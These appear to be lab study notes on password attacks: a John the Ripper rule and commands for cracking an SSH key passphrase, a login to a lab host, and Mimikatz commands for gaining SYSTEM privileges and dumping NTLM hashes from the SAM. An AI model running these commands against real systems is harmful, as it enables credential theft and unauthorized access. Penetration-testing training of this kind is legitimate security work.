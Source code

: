 #### Rule file for John the Ripper

`ssh.rule`
```
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```

Append the contents of our rule file into `/etc/john/john.conf`

```bash
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```

`ssh.passwords` is a wordlist file containing the passwords

```bash
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

```bash
chmod 600 id_rsa
ssh -i id_rsa -p 2222 dave@192.168.50.201
```

## Working with Password Hashes

### Cracking NTLM
Mimikatz includes the **sekurlsa** module, which extracts password hashes from the Local Security Authority Subsystem (LSASS) process memory.

**LSASS** is a process in Windows that handles user authentication, password changes, and access token creation. LSASS caches NTLM hashes and other credentials. LSASS runs under the **SYSTEM** user, which even more privileged than a process started as **Administrator**.

=> We can only extract passwords if we are running Mimikatz as Administrator (or higher) and have the **SeDebugPrivilege** access right enabled, which grants us the ability to debug not only processes we own, but also all other users' processes.

We can elevate our privileges to the SYSTEM account with tools like **PsExec** or the built-in Mimikatz **token elevation function**. The token elevation function requires the **SeImpersonatePrivilege** access right to work, but all local administrators have it by default.

```bat
mimikatz.exe
```

* `privilege::debug`: have the **SeDebugPrivilege** access right enabled
* `token::elevate`: elevate to **SYSTEM** user privileges.
* `lsadump::sam`: extract the NTLM hashes from the SAM.

```
privilege::debug
token::elevate
lsadump::sam
```
